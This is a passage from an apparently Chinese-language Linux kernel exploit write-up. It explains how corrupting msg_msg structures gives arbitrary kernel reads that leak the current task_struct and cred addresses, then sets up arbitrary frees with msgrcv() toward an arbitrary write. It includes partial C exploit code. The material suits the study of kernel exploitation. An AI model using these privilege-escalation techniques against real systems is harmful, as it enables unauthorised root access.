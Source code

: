 ```c
        leak = arb_read(0, next_task + 8, 0x2000, 1) + 0x1f9;
        next_task_pid = leak[0x398/8]; 		// [4]
    }

    puts("[+] Current task found!");

    return next_task;
}

[...]

puts("[*] Locating current task address...");
uint64_t current_task = find_current_task(init_task); // [1]
printf("[+] Leaked current task address: 0x%lx\n", current_task);

[...]
```

**具体**：篡改 `msg_msg->m_ts` 为0x2000，篡改 `msg_msg->next`指针指向 `task_struct`结构（注意头8字节为null），遍历双链表直到读取到当前进程的`task_struct`。同理泄露当前进程的`cred`地址。

```c
[...]

leak = arb_read(0, current_task, 0x2000, 1) + 0x1fa;
cred_struct = leak[0x540/8];
printf("[+] Leaked current task cred struct: 0x%lx\n", cred_struct);

[...]
```

![2-3](./picture/2-3.png)

#### 4.3 步骤3——任意释放

**目标**：目前已获取当前进程的task地址和cred地址，需构造任意写，但前提需要构造任意释放。根本目标是构造重叠的`kmalloc-4096`堆块，让其既充当一个消息的`msg_msgseg` segment，又充当另一个消息的`msg_msg`，这样就能覆写`msg_msg->next`指针构造任意写。       问题，为什么不构造重叠的`kmalloc-64`？因为`kmalloc-64`作为`msg_msg`的话不可能有segment，不能伪造它的`msg_msg->next`来任意写；且传入的长度已确定，无法写segment来任意写。

**释放消息**：首先释放**QID #1**中的消息，两次调用`msgrcv()`（不带`MSG_COPY` flag）。

- （1）第一次调用 `msgrcv()`，内核释放**`QID #1`**中第1个消息-`kmalloc-64`；
- （2）第二次调用 `msgrcv()`，内核释放第2个消息-`kmalloc-4096`和相应的segment（也在`kmalloc-4096`中）。

```c
[...]

msgrcv(qid[1], memdump, 0x1ff8, 1, IPC_NOWAIT | MSG_NOERROR); // [1]
msgrcv(qid[1], memdump, 0x1ff8, 1, IPC_NOWAIT | MSG_NOERROR); // [2]

[...]
```

内存布局如下：
